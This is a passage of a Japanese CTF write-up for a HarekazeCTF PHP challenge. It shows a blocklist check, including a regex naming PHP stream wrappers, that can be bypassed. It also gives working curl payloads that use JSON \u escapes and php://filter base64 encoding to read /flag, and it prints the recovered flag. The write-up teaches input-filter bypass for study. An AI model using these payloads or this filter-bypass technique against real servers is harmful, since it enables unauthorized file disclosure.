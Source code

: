 ```php
  if (preg_match($regexp, $str)) {
    return false;
  }
  return true;
}

$body = file_get_contents('php://input');
$json = json_decode($body, true);

if (is_valid($body) && isset($json) && isset($json['page'])) {
  $page = $json['page'];
  $content = file_get_contents($page);
  if (!$content || !is_valid($content)) {
    $content = "<p>not found</p>\n";
  }
} else {
  $content = '<p>invalid request</p>';
}

// no data exfiltration!!!
$content = preg_replace('/HarekazeCTF\{.+\}/i', 'HarekazeCTF{&lt;censored&gt;}', $content);
echo json_encode(['content' => $content]);
```

`file_get_contents('php://input')` で HTTP リクエストの body 部分を取得し、`json_decode` で JSON としてパースしています。その後 body 部分を `is_valid` で危険な文字列が含まれていないかチェックし、さらに JSON としてパースした結果の連想配列が `page` という添字を持っていれば、`file_get_contents` でその内容を取得しています。

`/flag` を取得する方法から考えていきましょう。`is_valid` では `flag` という文字列が含まれているかどうかチェックしていますが、ごまかすことはできないでしょうか。

`is_valid` がチェックしているのは `$json['page']` ではなく `$body` であることに着目します。JSON では `'\uXXXX'` のように文字をエスケープすることができ、例えば `'A'` と `'\u0041'` は等価です。

これを利用して `/flag` を取得しようと試みますが、出力前の置換によってフラグが表示されません。

```
$ curl http://(target)/query.php -d '{"page":"/fl\u0061g"}'
{"content":"HarekazeCTF{&lt;censored&gt;}\n"}
```

`is_valid` によって `flag` と同じ様に弾かれている `'(php|file|glob|data|tp|zip|zlib|phar):'` という文字列を見てみましょう。この前の行にある `// no stream wrapper` というコメントをググってみると、これは [PHP: サポートするプロトコル/ラッパー - Manual](https://www.php.net/manual/ja/wrappers.php) に書かれているような、ファイル読み込み時のストリームラッパーという機能の利用を防ぐためのフィルターと推測できます。

[`php://filter`](https://www.php.net/manual/ja/wrappers.php.php#wrappers.php.filter) というラッパーを使って `/flag` の内容が Base64 エンコードさせて出力させてみましょう。

```
$ curl http://(target)/query.php -d '{"page":"php\u003a//filter/convert.base64-encode/resource=/fl\u0061g"}'
{"content":"SGFyZWthemVDVEZ7dHVydXRhcmFfdGF0dGF0dGFfcml0dGF9Cg=="}
$ echo -en "SGFyZWthemVDVEZ7dHVydXRhcmFfdGF0dGF0dGFfcml0dGF9Cg==" | base64 -d
HarekazeCTF{turutara_tattatta_ritta}
```

